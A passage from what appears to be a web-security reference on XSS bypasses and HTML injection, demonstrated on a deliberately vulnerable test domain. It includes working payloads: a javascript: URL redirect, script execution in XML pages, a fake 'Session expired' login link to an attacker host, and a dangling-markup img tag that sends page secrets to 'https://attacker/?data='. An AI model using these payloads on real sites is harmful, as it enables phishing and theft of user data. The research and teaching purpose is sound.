https://vulnerabledoma.in/bypass/dom_redirect#javascript:alert(1)

```
<script>
location.href=decodeURIComponent(location.hash.slice(1));
</script>
```

### XSS in XML pages

[https://vulnerabledoma.in/bypass/xml?q=%3Cscript%20xmlns=%22http://www.w3.org/1999/xhtml%22%3Ealert(1)%3C/script%3E](https://vulnerabledoma.in/bypass/xml?q=alert(1))

```
<?xml version="1.0"?><html><script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script></html>
```

Bypass also occurs when a string can be written from the top of the page, `Content-Type`is not specified correctly, and XML is selected by Content Sniffing.

[https://vulnerabledoma.in/bypass/text?mime=unknown&q=%3C?xml%20version=%221.0%22?%3E%3Cscript%20xmlns=%22http://www.w3.org/1999/xhtml%22%3Ealert(1)%3C/script%3E](https://vulnerabledoma.in/bypass/text?mime=unknown&q=alert(1))

```
<?xml version="1.0"?><script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script>
```

Anything less than this does not lead to script execution, but is allowed to be written and has the potential to be used for attacks to some extent.

### http(s): create link

[https://vulnerabledoma.in/bypass/text?q=%3Ca%20href=https://attacker/%3ESession%20expired.%20Please%20login%20again.%3C/a%3E](https://vulnerabledoma.in/bypass/text?q=Session expired. Please login again.)

```
<a href=https://attacker/>Session expired. Please login again.</a>
```

### Tags that can send requests to the outside

It is sometimes possible to include confidential information in requests such as images, for example by using open quotes.

[https://vulnerabledoma.in/bypass/text?type=8&q=%3Cimg%20src=%22https://attacker/?data=](https://vulnerabledoma.in/bypass/text?type=8&q=

```
<p><img src="https://attacker/?data=</p>
<p>This is a secret text.</p>
<p id="x">AAA</p>
```

### Arbitrary CSS description

In addition to disguising the appearance of the page, if the same page contains sensitive information, it may be possible to retrieve the information using only CSS. See URL for details.
